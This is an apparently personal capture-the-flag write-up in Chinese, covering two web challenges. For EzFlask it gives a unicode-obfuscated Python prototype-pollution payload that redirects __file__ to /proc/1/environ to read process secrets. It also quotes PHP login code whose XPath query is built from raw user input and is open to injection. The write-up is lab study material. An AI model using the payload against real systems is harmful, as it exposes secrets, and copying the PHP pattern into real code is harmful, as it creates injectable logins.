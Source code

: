 # web
### EzFlask
#原型链污染 
python[原型链污染](https://tttang.com/archive/1876/#toc__10),但是过滤了__init__

---
使用unicode编码,污染__FILE__
*payload*
```python
payload:{"username":"123","password":"123","\u0000\u005f\u0000\u005f\u0000\u0069\u0000\u006e\u0000\u0069\u0000\u0074\u0000\u005f\u0000\u005f":{"__globals__": {"__file__":"/proc/1/environ"}}}
```

---
预期解
#flask  计算pin

### MyPicDisk
#xpath
```php
$xml = simplexml_load_file('/tmp/secret.xml');
  if($_POST['submit']){
    $username=$_POST['username'];
    $password=md5($_POST['password']);
    $x_query="/accounts/user[username='{$username}' and password='{$password}']";
    //执行xpath查询
    $result = $xml->xpath($x_query);
    if(count($result)==0){
      echo '登录失败';
    }else{
      $_SESSION['user'] = $username;
        echo "<script>alert('登录成功!');location.href='/index.php';</script>";
    }
```
# reverse

# pwn

# crypto

# Misc


---
# *相关wp*




2023-07-22   18:15